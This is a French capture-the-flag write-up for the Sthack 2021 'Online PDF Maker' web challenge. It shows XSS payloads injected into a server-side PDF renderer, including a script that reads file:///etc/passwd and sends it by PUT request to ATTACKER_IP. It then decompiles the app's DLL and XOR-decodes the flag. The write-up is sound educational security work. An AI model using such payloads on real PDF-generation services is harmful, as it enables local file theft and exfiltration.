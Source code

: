 ```yaml
---
title: Web - Online PDF Maker
category: Sthack2021
author: Karzemrok
tags:
- sthack2021
- web
- ctf
description: "Writeup Sthack 2021 - Online PDF Maker - WEB"
---
```

## Fichier

- [OnlinePdfMaker.dll](https://github.com/ZenSecCTF/zensecctf.github.io/releases/download/Sthack2021-Files/OnlinePdfMaker.dll)

## Résolution

L'application disponible nous propose d'entrer un texte et de le transformer en PDF

![]({{site.url}}/static/upload_412dab4cc8bb5e4a25db2b393616317d.png)

Une vulnérabilité courante ici, c'est l'XSS dans le moteur de rendu du PDF. Il est possible de le vérifier avec le payload suivant:

```html
<script>
document.write('test');
</script>
```

![]({{site.url}}/static/upload_dd513641a33e58411ece557d3e82cfe2.png)

Il peut être aussi intéressant de savoir d'où est rendu le PDF

```html
<script>
document.write(document.location);
</script>
```

![]({{site.url}}/static/upload_649b2b7457c62b1ec90c026cd3d5b20f.png)

Comme le PDF est rendu depuis un fichier (**file:///tmp/wktemp...**), nous allons pouvoir exfiltrer des fichiers. Nous pouvons par exemple extraire **/etc/passwd** de cette façon

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
    var x2 = new XMLHttpRequest();
    x2.open("PUT", 'http://ATTACKER_IP/sthack/passwd');
    x2.send(this.response)
};
x.open("GET","file:///etc/passwd");
x.responseType = 'arraybuffer';
x.send();
</script>
```

Maintenant que nous sommes en mesure de télécharger des fichiers sur la machine, il nous faut trouver des fichiers intéressants (comme les sources par exemple). Nous avons un indice dans l'HTML de l'application

![]({{site.url}}/static/upload_755639ef667bd38587be7cbcf89d83f0.png)

Nous savons que l'application est de l'ASP.net, il faut donc chercher un fichier **dll**. En tâtonnant un peu, on trouve que le nom du fichier dll est le même que le copyright : `OnlinePdfMaker.dll`

Une fois la Dll décompilée avec [ILSpy](https://github.com/icsharpcode/ILSpy), on trouve ce bout de code qui semble gérer l'affichage du flag:

```csharp
string text = "";
string s = "FBMqE3MvFDkUGDM4MVUdFgAwAEA0Cj4SbwEGAQA3B1c6QhE7CAg6";
string text2 = "VGhlRmxhZ0lzU29tZXdoZXJlX3VzZV95b3VyX2JyYWlu";
text2 = text2.Substring(1, 1) + text2.Substring(1, 1) + text2.Substring(32, 1) + text2.Substring(4, 1) + text2.Substring(9, 1);
text2 += Encoding.Default.GetString(Convert.FromBase64String("ZG9uJ3RfZ3Vlc3NfbG9va19hdF90aGVfY29kZSEhXzsp"));
if (!string.Equals(keyValue, text2))
{
	text = ((keyValue != null && !keyValue.Equals("")) ? "Wrong key" : "");
}
else
{
	string text3 = EncryptModel.XORCipher(Encoding.Default.GetString(Convert.FromBase64String(s)), text2);
	text = "flag : " + text3;
}
```

Après la ligne 4, text2 à la valeur `GGbR0`. A cette valeur, on ajoute `ZG9uJ3RfZ3Vlc3NfbG9va19hdF90aGVfY29kZSEhXzsp` dans sa forme base64 décodée (`don't_guess_look_at_the_code!!_;)`)

Ensuite cette variable est utilisée en tant que clé XOR pour la valeur base64 décodée de `FBMqE3MvFDkUGDM4MVUdFgAwAEA0Cj4SbwEGAQA3B1c6QhE7CAg6`

Ce qui nous donne le flag `STHACK{W3ll_D0ne_\o/_U_f0und_Th3_c0d3!}`

On aurait aussi pu mettre `GGbR0don't_guess_look_at_the_code!!_;)` dans le paramètre `keyValue` du formulaire de génération de PDF pour voir le flag injecté dans le PDF directement.

![]({{site.url}}/static/upload_d6efbae1ee68a7ac33ac12d65656320b.png)

